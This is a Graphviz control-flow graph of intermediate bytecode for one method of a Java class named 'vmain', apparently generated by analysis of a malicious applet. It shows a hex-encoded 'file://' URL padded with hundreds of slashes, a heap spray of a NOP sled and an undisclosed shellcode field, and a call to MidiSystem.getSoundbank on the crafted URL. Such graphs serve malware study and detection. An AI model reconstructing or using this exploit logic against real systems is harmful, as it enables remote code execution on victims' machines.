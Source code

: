 digraph "" {
    "r0 := @this: vmain"
    "push \"66696C653A2F2F\""
    "r0 := @this: vmain"->"push \"66696C653A2F2F\"";
    "staticinvoke <vmain: java.lang.String HS(java.lang.String)>"
    "push \"66696C653A2F2F\""->"staticinvoke <vmain: java.lang.String HS(java.lang.String)>";
    "store.r r15"
    "staticinvoke <vmain: java.lang.String HS(java.lang.String)>"->"store.r r15";
    "push 0"
    "store.r r15"->"push 0";
    "store.i i0"
    "push 0"->"store.i i0";
    "load.i i0"
    "store.i i0"->"load.i i0";
    "push 302"
    "load.i i0"->"push 302";
    "ifcmpge.i new java.lang.StringBuffer"
    "push 302"->"ifcmpge.i new java.lang.StringBuffer";
    "new java.lang.StringBuffer"
    "ifcmpge.i new java.lang.StringBuffer"->"new java.lang.StringBuffer";
    "dup1.r"
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "load.r r15"
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"load.r r15";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "load.r r15"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"/\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"/\"";
    "push \"/\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r15";
    "inc.i i0 1"
    "store.r r15"->"inc.i i0 1";
    "goto load.i i0"
    "inc.i i0 1"->"goto load.i i0";
    "ifcmpge.i new java.lang.StringBuffer"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"load.r r15";
    "load.r r15"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"5A255A255A255A255A255A25\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"5A255A255A255A255A255A25\"";
    "push \"5A255A255A255A255A255A25\""->"staticinvoke <vmain: java.lang.String HS(java.lang.String)>";
    "staticinvoke <vmain: java.lang.String HS(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r15";
    "load.r r0"
    "store.r r15"->"load.r r0";
    "staticget <vmain: java.lang.String scc>"
    "load.r r0"->"staticget <vmain: java.lang.String scc>";
    "staticinvoke <vmain: short[] HexDecode(java.lang.String)>"
    "staticget <vmain: java.lang.String scc>"->"staticinvoke <vmain: short[] HexDecode(java.lang.String)>";
    "push \"90909090\""
    "staticinvoke <vmain: short[] HexDecode(java.lang.String)>"->"push \"90909090\"";
    "push \"90909090\""->"staticinvoke <vmain: short[] HexDecode(java.lang.String)>";
    "virtualinvoke <vmain: java.nio.IntBuffer[] mspray(short[],short[])>"
    "staticinvoke <vmain: short[] HexDecode(java.lang.String)>"->"virtualinvoke <vmain: java.nio.IntBuffer[] mspray(short[],short[])>";
    "pop"
    "virtualinvoke <vmain: java.nio.IntBuffer[] mspray(short[],short[])>"->"pop";
    "new java.net.URL"
    "pop"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r15";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r15"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "store.r r0"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
}
